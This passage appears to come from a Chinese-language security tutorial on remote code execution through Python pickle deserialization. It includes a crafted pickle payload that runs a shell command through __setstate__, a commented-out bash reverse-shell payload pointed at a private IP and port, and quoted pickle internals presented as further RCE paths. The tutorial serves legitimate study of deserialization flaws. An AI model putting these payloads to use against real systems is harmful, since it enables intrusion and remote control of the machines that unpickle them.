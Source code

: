 ```python
import pickle
import os
class Student():
    def __init__(self):
        self.name = 'amelia'
        self.grade = 'A1'
payload = b'\x80\x03c__main__\nStudent\n)\x81}(V__setstate__\ncos\nsystem\nubVls /\nb.'
# shell = b"""\x80\x03c__main__\nStudent\n)\x81}(V__setstate__\ncos\nsystem\nubS'bash -c "bash -i >& /dev/tcp/192.168.31.29/8426 0>&1"'\nb."""
pickle.loads(payload)
```

![image-20210810025215320](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210810025215320.png)

![image-20210810025143114](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210810025143114.png)

可以看到成功做到了rce~~反弹shell当然也可以

### -->>使用`_instantiate()`&`load_obj()`&`load_inst()`&`b'o'`&`b'i'`实现rce

- `_instantiate()`: Create a new object via klass(*args); Leads to arbitrary function call actually

  - ```python
    def _instantiate(self, klass, args):
        if (args or not isinstance(klass, type) or
            hasattr(klass, "__getinitargs__")):
            try:
                # Arbitrary function all
                value = klass(*args)
            except TypeError as err:
                raise TypeError("in constructor for %s: %s" %
                                (klass.__name__, str(err)), sys.exc_info()[2])
        else:
            value = klass.__new__(klass)
        self.append(value)
    ```

- `load_obj()`

  - ```python
    def load_obj(self):
        # Stack is ... markobject classobject arg1 arg2 ...
        args = self.pop_mark()
        cls = args.pop(0)
        self._instantiate(cls, args)
    dispatch[OBJ[0]] = load_obj
    ```
